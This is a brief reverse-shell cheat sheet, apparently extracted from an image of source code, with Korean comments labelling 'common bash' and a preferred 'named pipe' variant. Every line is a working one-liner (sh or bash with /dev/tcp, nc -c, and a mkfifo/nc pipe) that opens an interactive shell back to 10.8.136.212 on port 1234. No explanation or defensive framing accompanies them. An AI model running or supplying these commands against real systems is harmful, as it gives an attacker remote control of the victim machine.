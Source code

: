 sh -i >& /dev/tcp/10.8.136.212/1234 0>&1
nc -c sh 10.8.136.212 1234

# 일반적인 bash

bash -i >& /dev/tcp/10.8.136.212/1234 0>&1
/bin/sh -i >& /dev/tcp/10.8.136.212/1234 0>&1

# 안전한 named pipe 방식 선호

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.8.136.212 1234 >/tmp/f
